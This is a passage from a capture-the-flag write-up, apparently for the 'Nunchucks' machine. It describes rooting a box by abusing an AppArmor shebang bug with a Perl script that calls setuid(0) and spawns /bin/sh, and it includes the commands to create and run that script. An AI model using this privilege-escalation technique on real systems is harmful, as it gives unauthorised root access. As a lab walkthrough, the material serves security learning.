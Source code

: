 <br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_29.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_30.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_31.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_32.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_33.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I'm about to run out of ideas, but I search the internet for a bug for **AppArmor** and **`perl`**, and the search engine auto-fills me with **apparmor perl bugs**. At the beginning of the resources I find a very interesting one, **[Unable to prevent execution of shebang lines](https://bugs.launchpad.net/apparmor/+bug/1911431){:target="_blank"}** , that if I read it I see that there is the possibility of executing commands with `perl`, taking advantage of the **shebang**. Then I create a `perl` script that sets the uid to **0**, and then run a command (open a shell `sh`) that will do it as the `root` user, I can use the **[GTFObins](https://gtfobins.github.io/gtfobins/perl/#capabilities){:target="_blank"}** oneliner to create the script.. This way I have **rooted** the machine.

> **Shebang** is, in **Unix** jargon, the name given to the character pair **`#!`** This is a widely used method for scripts where the interpreter does not have the same path on all systems.

```bash
cat /opt/backup.pl
--> #!/usr/bin/perl

cd /dev/shm
touch privilege_escalation.pl
nano !$
chmod +x !$

./privilege_escalation.pl
```

> **privilege_escalation.pl**

```perl
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
```

<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_34.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_35.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nunchucks_writeup/Nunchucks_36.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
